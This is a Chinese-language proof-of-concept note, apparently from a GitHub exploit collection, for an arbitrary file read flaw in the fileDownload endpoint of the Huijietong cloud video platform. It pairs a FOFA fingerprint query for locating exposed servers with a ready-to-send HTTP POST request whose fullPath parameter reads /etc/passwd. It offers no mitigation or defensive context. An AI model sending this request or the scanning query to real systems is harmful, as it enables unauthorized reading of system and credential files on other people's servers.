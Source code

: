 ## 会捷通云视讯平台fileDownload存在任意文件读取漏洞

## fofa

```
body="/him/api/rest/v1.0/node/role
```

## poc

```
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: x.x.x.x
Content-Length: 20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://x.x.x.x
Referer: http://x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
 
fullPath=/etc/passwd
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407081228835.png)